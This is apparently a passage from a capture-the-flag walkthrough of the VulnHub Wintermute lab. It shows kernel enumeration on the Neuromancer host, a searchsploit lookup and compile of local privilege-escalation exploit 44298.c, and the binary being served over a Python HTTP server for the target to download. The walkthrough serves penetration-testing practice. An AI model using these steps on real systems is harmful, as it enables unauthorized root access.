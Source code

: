 ```
|                Neuromancer Secure Remote Access                |
| UNAUTHORIZED ACCESS will be investigated by the Turing Police  |
 ----------------------------------------------------------------
lady3jane@192.168.251.7's password:
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

94 packages can be updated.
44 updates are security updates.

lady3jane@neuromancer:~$ uname -a
Linux neuromancer 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
lady3jane@neuromancer:~$ exit
logout
Connection to 192.168.251.7 closed.
```
It looks like the Kernel version Neuromancer is running is vulnerable. However, neuromancer doesn't have gcc to compile.
```
kali@kali:~/vulnhub/wintermute/privesc$ searchsploit linux 4.4.0-116
----------------------------------------- ----------------------------------------
 Exploit Title                           |  Path
                                         | (/usr/share/exploitdb/)
----------------------------------------- ----------------------------------------
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4 | exploits/linux/local/44298.c
----------------------------------------- ----------------------------------------
Shellcodes: No Result
kali@kali:~/vulnhub/wintermute/privesc/neuromancer$ searchsploit -x exploits/linux/local/44298.c
  Exploit: Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/44298
     Path: /usr/share/exploitdb/exploits/linux/local/44298.c
File Type: C source, ASCII text, with CRLF line terminators
kali@kali:~/vulnhub/wintermute/privesc/neuromancer$ cp /usr/share/exploitdb/exploits/linux/local/44298.c .
kali@kali:~/vulnhub/wintermute/privesc/neuromancer$ head 44298.c
/*
 * Ubuntu 16.04.4 kernel priv esc
 *
 * all credits to @bleidl
 * - vnik
 */

// Tested on:
// 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64
// if different kernel adjust CRED offset + check kernel stack size
kali@kali:~/vulnhub/wintermute/privesc/neuromancer$ gcc 44298.c -o 44298
```
Spin up a server and get the compiled binary.
```
kali@kali:~/vulnhub/wintermute/privesc/neuromancer$ python -m SimpleHTTPServer 4321
Serving HTTP on 0.0.0.0 port 4321 ...
192.168.251.7 - - [01/May/2020 08:31:01] "GET /44298 HTTP/1.1" 200 -
^CTraceback (most recent call last):
  File "/usr/lib/python2.7/runpy.py", line 174, in _run_module_as_main
    "__main__", fname, loader, pkg_name)
  File "/usr/lib/python2.7/runpy.py", line 72, in _run_code
    exec code in run_globals
  File "/usr/lib/python2.7/SimpleHTTPServer.py", line 235, in <module>
    test()
  File "/usr/lib/python2.7/SimpleHTTPServer.py", line 231, in test
```

[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
[1]: https://www.vulnhub.com/entry/wintermute-1,239/
[2]: https://twitter.com/@_creosote
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator